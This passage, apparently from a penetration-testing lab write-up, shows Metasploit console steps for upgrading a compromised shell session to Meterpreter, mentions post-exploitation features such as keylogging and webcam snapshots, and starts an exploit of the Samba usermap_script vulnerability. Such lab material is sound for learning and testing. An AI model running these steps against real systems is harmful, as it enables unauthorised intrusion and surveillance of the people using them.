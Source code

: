 	Here, **1** is the **Session ID**.

3. **Upgrade the shell to a Meterpreter session**:
	Use the following command, replacing **1** with the session ID you want to upgrade:
	```bash
	sessions -u 1
	```

4. **Verify that the session has been upgraded**:
	Run:
	```bash
	sessions
	```

	If successful, you will see something like this:

	![alt text](images/image-6.png)

Now you have a **Meterpreter session**, which provides access to many advanced features like:
- **File upload/download**
- **Webcam snapshots**
- **Keylogging**
- **Process migration**

To interact with the Meterpreter session, use:
```bash
sessions -i 2
```

Once inside the Meterpreter session, you can type:
```bash
help
```
to see all available Meterpreter commands.

### 2. Samnba usermap script

To exploit this vulnerability, we will use the **`exploit/multi/samba/usermap_script`** module in **Metasploit**:

1. **Open `msfconsole`**:

	```bash
	msfconsole
	```

2. **Load the exploit module**:
	```bash
	use exploit/multi/samba/usermap_script
	```
